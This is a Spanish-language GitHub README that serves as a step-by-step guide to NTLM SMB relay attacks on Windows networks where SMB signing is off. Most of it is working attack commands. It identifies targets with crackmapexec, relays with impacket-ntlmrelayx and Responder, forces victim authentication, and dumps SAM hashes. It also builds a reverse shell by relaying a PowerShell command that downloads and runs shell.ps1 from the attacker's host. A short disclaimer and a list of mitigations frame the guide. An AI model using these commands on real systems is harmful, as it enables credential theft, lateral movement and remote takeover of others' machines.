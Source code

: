 # NTLM SMB Relay Attack Guide
![imagen](https://github.com/90l3m0np13/NTLM-SMB-RELAY/blob/main/Imagen.jpeg)


## 📌 Descripción
Guía técnica para realizar ataques de **NTLM Relay** contra sistemas Windows con SMB signing deshabilitado, permitiendo ejecución remota de comandos, robo de hashes y movimiento lateral.

## ⚠️ Requisitos Legales
- **Solo para pentesting autorizado o entornos de laboratorio**.  
- Nunca atacar sistemas sin permiso explícito.

---

## 🔧 Herramientas Necesarias
- **Kali Linux** (o distribución con herramientas preinstaladas).  
- **Impacket**: `sudo apt install impacket`.  
- **CrackMapExec**: `sudo apt install crackmapexec`.  
- **Responder**: `sudo apt install responder`.  

---

## 🚀 Pasos del Ataque

### 1️⃣ Identificar sistemas vulnerables
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
````
   
Salida esperada:
SMB   192.168.1.10    SIGNING:Not enforced  # ¡Vulnerable!

2️⃣ Configurar targets.txt
plaintext
Copy

smb://192.168.1.10
smb://192.168.1.20

3️⃣ Desactivar SMB/HTTP en Responder
 ```bash
/etc/responder/Responder.conf:
````
SMB = Off
HTTP = Off

4️⃣ Iniciar NTLM Relay
````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -socks -debug
````
5️⃣ Iniciar Responder (en otra terminal)
```bash
sudo responder -I eth0
````

6️⃣ Explotación con ProxyChains

Editar socks4 127.0.0.1 1080
```bash
/etc/proxychains4.conf:
````
7 Poner la máquina en escucha con netcat
```bash
netcat -lvp 5555
````

## 💣 Paso clave: Forzar autenticación

## Ejecutar esto en CMD de la víctima:
```bash
net use \\192.168.1.100\fake-share /u:fakeuser fakepass
````
## O intentar acceder manualmente a:
```bash
\\192.168.1.100\carpeta-falsa
````
## 🎯 Explotación exitosa
## Cuando veas esto en ntlmrelayx:
[+] Authenticated against 192.168.1.10 (Windows 10)

## Opción A: Robar hashes
````bash
proxychains4 crackmapexec smb 192.168.1.10 -u '' -p '' --sam
````
## Opción B: Reverse Shell
## 1. Hostear shell.ps1 (Terminal 3)
```bash
python3 -m http.server 8000
````
## 2. Ejecutar relay con payload
```bash
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://TU_IP:8000/shell.ps1')\""
````

## 🔒 Medidas de protección
- Activar SMB Signing (GPO)
- Deshabilitar NTLM
- Bloquear tráfico SMB no esencial
- Monitorear eventos 4624 (Windows) con autenticaciones inusuales

⚠️ IMPORTANTE: Este ataque solo funciona si:
- La víctima tiene privilegios de administrador
- El servicio SMB está activo
- No hay SMB signing habilitado


